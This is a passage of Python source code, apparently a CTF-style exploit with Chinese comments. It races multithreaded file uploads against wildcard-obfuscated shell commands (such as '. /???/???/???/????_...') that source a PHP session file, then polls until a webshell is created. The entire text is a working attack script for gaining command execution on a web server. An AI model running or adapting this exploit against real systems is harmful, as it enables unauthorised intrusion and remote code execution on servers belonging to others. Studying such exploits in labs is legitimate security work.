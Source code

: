 ```python
#     f"/tmp/sessions/sess_{sessionid}"
# ]
str_len = len(sessionid)
payload = "?"*str_len
session_paths = [
    f". /???/???/???/????_{payload}",
    f". /???/???/???/????????/????_{payload}",
    f". /???/????_{payload}",
    f". /???/????????/????_{payload}"
]

# 全局停止事件
stop_event = threading.Event()

def upload_file():
    while not stop_event.is_set():
        try:
            requests.post(url, data=data, files=file, cookies=cookies, timeout=3)
        except requests.RequestException:
            pass
        # time.sleep(1)

def check_file():
    while not stop_event.is_set():
        try:
            # 尝试所有常见 session 文件路径
            for path in session_paths:
                print(f"Trying path: {path}")
                requests.post(url, data={"code": path}, timeout=3)

            r = requests.get(shell_url, timeout=3)
            if r.status_code == 200:
                print('Webshell created successfully')
                print(r.text)
                stop_event.set()  # 文件创建成功，通知所有线程退出
                break
            else:
                print(f"{r.status_code}")
        except requests.RequestException:
            pass
        # time.sleep(1)

# Ctrl+C 捕获处理
def signal_handler(sig, frame):
    print("\nCtrl+C 捕获，正在退出...")
    stop_event.set()
    sys.exit(0)

signal.signal(signal.SIGINT, signal_handler)

# 启动线程
threads = []
for _ in range(5):
    t = threading.Thread(target=upload_file, daemon=True)
    t.start()
    threads.append(t)

for _ in range(15):
    t = threading.Thread(target=check_file, daemon=True)
    t.start()
    threads.append(t)

# 主线程等待事件
```